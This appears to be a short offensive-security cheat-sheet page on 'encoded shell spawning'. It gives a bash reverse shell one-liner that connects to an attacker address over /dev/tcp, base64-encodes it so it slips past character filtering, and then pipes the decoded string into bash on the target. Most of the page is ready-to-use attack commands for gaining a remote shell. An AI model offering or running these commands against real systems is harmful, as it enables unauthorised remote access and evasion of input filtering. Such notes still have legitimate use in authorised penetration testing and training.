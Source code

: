 # Encoded Shell Spawning

Sometimes using some [[Shell-Spawning]] tool is not enough either how characters are handled at any point clientside to serverside require encoding to be decoded back to execuatable form. The only assumption made is the the attacker machine is some Linux distro with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | bash
```
